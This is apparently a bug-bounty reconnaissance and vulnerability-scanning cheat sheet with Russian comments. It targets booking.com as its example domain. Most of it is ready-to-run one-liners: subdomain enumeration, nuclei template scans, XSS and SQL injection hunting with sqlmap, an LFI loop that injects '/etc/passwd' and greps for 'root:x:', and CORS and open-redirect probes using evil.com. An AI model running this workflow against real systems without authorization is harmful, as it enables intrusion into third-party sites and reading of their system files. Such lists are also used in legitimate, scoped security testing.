 * echo booking.com > target.txt
# найдет субдомены tool [subfinder](https://github.com/projectdiscovery/subfinder)
* subfinder -dL target.txt -all --recursive -o subs.txt
# оставляет только живые 🐛💵
* cat subs.txt | httpx -o aliveSubs.txt
# вытащить все юрл с субдоменов 
* cat subs.txt | waybackurls | tee urls.txt
# перверяет субдомен тейковер среди живых доменов
* nuclei -t /nuclei-templates/takovers/ -l aliveSubs.txt
* nuclei -l urls.txt -t /nuclei-templates/fuzzing-templates/
# проверяет на cve, exposure, vuln 
* nuclei -list aliveSubs.txt -t /nuclei-templates/vulnerabilities -t /nuclei-templates/cves -t /nuclei-templates/exposures
# из юрл извлекаем те юрл у которых есть параметры и js файлы 
* cat urls.txt | grep "=" | tee param.txt
* cat urls.txt | grep -iE '.js'| grep -ivE '.json' | sort -u | tee js.txt
# проверяет баги в js файлах 
* nuclei -t /nuclei-templates/http/exposures/ -l js.txt -o jsBugs.txt
# проверяет xss 
* cat urls.txt | uro | gf xss > xss.txt
* cat param.txt | kxss
* paramspider -d booking.com
# проверяет lfi 
* cat aliveSubs.txt | gau | uro | gf lfi | tee lfi.txt
* nuclei -l target.txt -tags lfi
* cat aliveSubs.txt | gau | uro | gf lfi | qsreplace  "/etc/passwd" | while read url; do curl -silent "$url" | grep "root:x:" && echo "$url is Vulnerable"; done;
* site=$(cat target.txt); gau $site | while read url; do target=$(curl -sIH Origin: https://evil.com -X GET $url) | if grep 'https://evil.com'; then [Potentional CORS Found] echo $url; else echo Nothing on $url; fi; done
# проверяет sqli 
* python3 sqlifinder.py -d booking.com
* sqlmap -m param.txt --batch --random-agent --level 1 | tee sqlmap.txt
# проверяет открытое перенаправление 
* cat urls.txt | grep -a -i =http | qsreplace 'evil.com' | while read host do;do curl -s -L $host -I| grep evil.com && echo $host 3[0;31mVulnerable\n ;done
# нуклей фазер проверет все уязвимости 
* nf -d booking.com

